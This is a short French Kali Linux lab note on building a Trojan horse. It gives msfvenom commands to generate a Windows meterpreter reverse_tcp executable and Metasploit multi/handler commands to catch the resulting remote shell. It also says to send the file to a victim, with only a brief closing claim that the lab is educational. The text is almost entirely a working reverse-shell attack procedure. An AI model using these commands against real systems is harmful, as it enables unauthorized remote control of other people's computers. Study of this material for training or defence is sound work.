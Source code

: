 ```yaml
---
{"dg-publish":true,"permalink":"/linux/kali/cheval-de-troie/"}
---
```


Tout d'abord il faut commencer par donner le chemin du fichier :
```Kali
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP.Kali> LPORT=<Port_voulu> -f exe -o <Chemin/nom.exe>
```
Une fois cela fait il faut lancer msf console 
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole
```
 Une fois lancer on a cet écran :
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole

                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```
on va taper les commandes suivante :
```Shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP.Kali>
LHOST => <IP.Kali>
msf6 exploit(multi/handler) > exploit
```
On se retrouve au chemin du fichier indiqué et on l'envoie à notre victime.
Attention ce TP est à but éducatif. Ce Trojan sera détecté directement par l'antivirus du système visé. Une fois installé tapez la commande `<help>` pour connaître les différentes actions possible.